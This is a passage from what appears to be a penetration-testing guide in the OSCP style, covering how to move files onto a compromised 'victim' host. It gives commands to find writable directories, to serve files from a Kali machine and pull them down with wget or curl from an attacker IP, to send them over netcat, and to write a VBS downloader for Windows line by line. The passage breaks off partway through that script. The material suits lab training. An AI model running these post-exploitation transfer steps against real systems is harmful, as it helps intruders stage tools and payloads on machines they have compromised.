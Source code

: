 First things first — you need to find a directory you can write to. The first places to look are /tmp or /dev/shm but if that doesn’t work for you, this command should find writeable directories:
```
find / -type d \( -perm -g+w -or -perm -o+w \) -exec ls -adl {} \;
```

## HTTP(S)
Now that we have found somewhere to transfer to, it’s time to transfer the files! The quickest, easiest way to transfer files to a Linux victim is to setup a HTTP server on your Kali box. If you like being inefficient, set up Apache. If you would rather keep things easy, navigate to the directory containing the file(s) you wish to transfer and run:
```
root@kali# python -m SimpleHTTPServer 80
```
Pulling in the files on any victim Linux machine should be as easy as
```
wget http://attackerip/file
```
Or
```
curl http://attackerip/file > file
```

## Netcat
If HTTP file transfers are not an option, consider using netcat. First set up your victim to listen for the incoming request and pipe the output to a file (it’s best to use a high port number, as using port numbers < 1024 is often not allowed unless you’re root):
```
nc -nvlp 55555 > file
```
Now back on your Kali machine, send the file!
```
nc $victimip 55555 < file
```

## File Transfer Methods — Windows
If you’re attacking windows, transferring files can be a little more tricky. My favourite method (which I learned from the OSCP manual!) is to create your own Windows wget by writing a VBS script. First you can create the file line by line by running these commands:
```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs 
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs 
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
```